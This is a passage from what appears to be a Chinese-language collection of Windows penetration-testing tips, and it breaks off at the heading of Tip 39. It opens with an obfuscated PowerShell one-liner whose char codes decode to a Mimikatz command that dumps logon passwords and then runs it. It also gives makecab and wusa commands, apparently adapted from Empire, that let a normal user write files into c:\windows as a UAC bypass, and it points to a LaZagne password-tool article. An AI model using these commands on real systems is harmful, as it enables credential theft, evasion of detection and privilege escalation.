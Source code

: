 输入`1`，指定编码为ascii

得到混淆后的代码：

```
" $(SEt-iTem  'VARIaBle:OFS' '' ) "+ [StRinG](( 73,110 , 118 ,111, 107, 101, 45, 49, 49 ,49 ,49 ,49 , 49, 32 , 45 , 67, 111, 109 , 109, 97 , 110 , 100 , 32,34,108, 111, 103 ,32, 112 ,114 , 105,118,105,108, 101, 103 ,101, 58 , 58 , 100 , 101 , 98, 117 ,103,32 , 115,101,107 ,117,114 , 108,115, 97 ,58 , 58, 108 ,111 ,103,111,110, 112, 97, 115 ,115,119, 111, 114, 100, 115, 32, 101, 120,105,116 ,34 )|FOReacH-objeCT{( [ChAR][iNT] $_) } ) +"$( Set-variAbLE  'oFS'  ' ' ) "|. ( $env:PUbLic[13]+$eNv:PuBlIc[5]+'x')
```

---

### Tips 37 python脚本转exe

常见的两种方法：

- 使用py2exe
- 使用PyInstaller

使用方法和常见bug解决方法可参照参考链接

参考：

[《本地密码查看工具LaZagne中的自定义脚本开发》](https://3gstudent.github.io/3gstudent.github.io/%E6%9C%AC%E5%9C%B0%E5%AF%86%E7%A0%81%E6%9F%A5%E7%9C%8B%E5%B7%A5%E5%85%B7LaZagne%E4%B8%AD%E7%9A%84%E8%87%AA%E5%AE%9A%E4%B9%89%E8%84%9A%E6%9C%AC%E5%BC%80%E5%8F%91/)

---

### Tips 38 普通用户权限向管理员权限的路径下写文件

eg.

以普通用户权限向`c:\windows`文件夹下释放文件

```
makecab c:\test\test.exe %TMP%\1.tmp
wusa %TMP%\1.tmp /extract:"c:\windows" /quiet
```

适用于Win7、Win8，学习自：

https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-WScriptBypassUAC.ps1

参考：

[《Empire中的Invoke-WScriptBypassUAC利用分析》](https://3gstudent.github.io/3gstudent.github.io/Empire%E4%B8%AD%E7%9A%84Invoke-WScriptBypassUAC%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)

---

### Tips 39 在远程系统上执行程序的方法汇总

常用方法：
